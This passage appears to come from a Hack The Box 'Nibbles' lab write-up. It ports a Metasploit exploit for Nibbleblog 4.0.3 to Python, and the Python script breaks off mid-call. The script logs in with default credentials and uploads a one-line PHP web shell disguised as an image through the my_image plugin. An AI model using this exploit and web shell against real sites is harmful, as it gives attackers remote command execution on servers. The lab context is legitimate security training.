 ![web7](./nibbles/web7.png)

With the access, convert the exploit from Metasploit to Python. Here are the exploit steps:

- HTTP POST to `admin.php` to get a login cookie
- HTTP POST to `admin.php` to uplaod an PHP file as an image to the `my_image` plugin
- Find the shell at `content/private/plugins/my_image/image.php`

Here is the Python version of the exploit:

- Big help is this and using Burpsuite to intercept the HTTP POST to translate to Python:
  - https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/

```python
import io
import requests

TARGET = 'http://10.10.10.75'
PHP = '<?php echo shell_exec($_REQUEST["c"]); ?>'

s = requests.session()
r = s.get(TARGET + '/nibbleblog/admin.php')
r = s.post(TARGET + '/nibbleblog/admin.php', data={
  'username' : 'admin',
  'password' : 'nibbles',
})
if 'Incorrect' in r.text:
  print(f'[-] bad login:')
  print(r.text)
  exit(1)
print(f'[+] cookie: {s.cookies.get_dict()}')
print('[*] uploading payload ...')
r = s.post(TARGET + '/nibbleblog/admin.php', 
            params={
              'controller': 'plugins',
              'action': 'config',
              'plugin': 'my_image',
            }, 
            files={
              'image': (
                'image.php',
                io.StringIO(PHP),
```
